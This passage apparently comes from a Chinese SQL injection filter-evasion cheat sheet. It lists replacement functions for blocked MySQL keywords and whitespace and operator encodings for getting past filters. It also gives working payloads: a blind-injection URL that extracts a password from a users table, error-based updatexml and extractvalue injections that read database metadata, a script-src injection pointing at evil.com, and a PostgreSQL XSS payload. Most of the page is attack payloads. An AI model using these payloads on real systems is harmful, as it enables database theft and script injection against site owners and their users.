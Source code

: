 与命令有些函数或命令因其关键字被检测出来而无法使用，但是在很多情况下可以使用与之等价或类似的代码替代其使用
  
1.函数或变量
  
```
  
hex()、bin() ==> ascii()
  
sleep() ==>benchmark()
  
concat_ws()==>group_concat()
  
mid()、substr() ==> substring()
  
@@user ==> user()
  
@@datadir ==> datadir()
  
```
  
举例substring()和substr()无法使用时
  
`?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74`　 
  

  
或者
  
``` sql
  
substr((select 'password'),1,1) = 0x70 
  
strcmp(left('password',1), 0x69) = 1 
  
strcmp(left('password',1), 0x70) = 0 
  
strcmp(left('password',1), 0x71) = -1 
  
```
  
上述这几个示例用于说明，有时候当某个函数不能使用时还可以找到其他的函数替代其实现，至于select、uinon、where等关键字被限制如何处理将在后面filter部分讨论
  

  
2.符号and 和 or
  
有可能不能使用可以试下`&&`和`||` 能不能用，还有 `=` 不能使用的情况可以考虑尝试`<`、`>`，因为如果不小于又不大于那便是等于了
  
再看一下用得很多的空格，可以使用如下符号代替其使用
  
`%20 %09 %0a %0b %0c %0d %a0 /**/ `
  

  
3.生僻函数MySQL/PostgreSQL支持XML函数
  
``` sql
  
Select UpdateXML('<script x=_></script> ','/script/@x/','src=//evil.com');
  
?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))
  
SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror));　//postgresql
  
?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
  
```
  